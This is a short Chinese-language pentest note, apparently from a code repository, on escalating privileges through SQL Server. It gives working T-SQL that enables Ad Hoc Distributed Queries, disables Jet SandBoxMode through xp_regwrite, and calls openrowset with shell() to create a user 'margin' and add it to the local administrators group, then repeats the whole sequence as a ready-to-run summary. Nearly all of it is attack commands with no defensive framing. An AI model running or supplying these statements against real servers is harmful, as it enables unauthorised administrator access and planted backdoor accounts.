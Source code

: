 ###### 使用SQL Server 沙盒提权

```
执行添加管理员的命令后，报错：SQL Server阻止了对组件'Ad Hoc Distributed Queries'的…………
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

那么输入以下命令，启用Ad Hoc Distributed Queries：
exec sp_configure 'Ad Hoc Distributed Queries',1;
reconfigure;

再执行
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

执行添加一个管理员 margin 命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

将margin用户提升到超级管理员权限
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')

net localgroup administrators 查看超级管理员组账户有margin


##简单总结
--提权语句

exec sp_configure 'show advanced options',1;reconfigure;

-- 不开启的话在执行xp_regwrite会提示让我们开启，

exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

--执行系统命令select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')

沙盒模式SandBoxMode参数含义（默认是2）

`0`：在任何所有者中禁止启用安全模式

`1` ：为仅在允许范围内

`2` ：必须在access模式下

`3`：完全开启

openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。

--恢复配置

```